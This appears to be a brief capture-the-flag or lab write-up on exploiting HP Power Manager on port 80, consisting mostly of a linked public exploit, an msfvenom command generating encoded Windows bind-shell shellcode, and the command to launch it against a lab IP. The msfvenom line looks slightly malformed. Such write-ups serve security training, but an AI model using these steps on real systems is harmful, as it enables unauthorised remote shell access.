

# 80

A website running HP Power Manager:


Using this exploit: https://github.com/Muhammd/HP-Power-Manager/tree/master

Replacing the shellcode:
```
msfvenom -p windows/shell_bind_tcp LHOST=192.168.45.167 LPORT=1234  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```
Now running the exploit:
```bash
python2 hpm_exploit.py 192.168.180.45
```


